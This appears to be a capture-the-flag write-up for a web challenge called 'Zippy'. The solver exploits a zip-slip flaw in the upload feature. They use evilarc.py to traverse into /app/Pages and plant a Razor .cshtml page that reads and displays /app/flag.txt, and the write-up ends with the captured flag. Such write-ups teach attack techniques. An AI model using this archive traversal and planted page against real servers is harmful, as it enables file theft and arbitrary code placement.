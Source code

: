 ### Challenge description

Need a quick solution for archiving your business files? Try Zippy today, the Zip Archiver built for the small to medium business!

NOTE: This challenge may take up to two minutes or so to completely start and load in your browser. Please wait.

### Solution

Looking at the webpage, we see we can browse the files, we can check the log and that we can upload a file. It's called zippy so we upload a zip and we see that it extracts it. We find a article that mentions this vuln. and we go to town.

For creating a malicious zip, we use [this script](https://github.com/ptoomey3/evilarc/blob/master/evilarc.py) that we found on github.

```shell
python2 evilarc.py Webshell.cshtml -p /app/Pages -o unix
```

We put the following code inside of it as we see that its dot net framework and... we get the flag when visiting the file on the server `/Flag` (thats what we named our file, `Flag.cshtml`).

```csharp
@page
@{
    ViewData["Title"] = "Flag Viewer";
    
    // Specify the path to your file
    string filePath = "/app/flag.txt";
    string flagContent = string.Empty;

    try
    {
        // Check if the file exists
        if (System.IO.File.Exists(filePath))
        {
            // Read all text from the file
            flagContent = System.IO.File.ReadAllText(filePath);
        }
        else
        {
            flagContent = "Flag file not found.";
        }
    }
    catch (Exception ex)
    {
        flagContent = $"Error reading flag file: {ex.Message}";
    }
}

<h1>Flag Viewer</h1>
<h2>Contents of flag.txt:</h2>
<pre>@flagContent</pre>
```
flag{a074eb7973c4c718790baefc096654dd}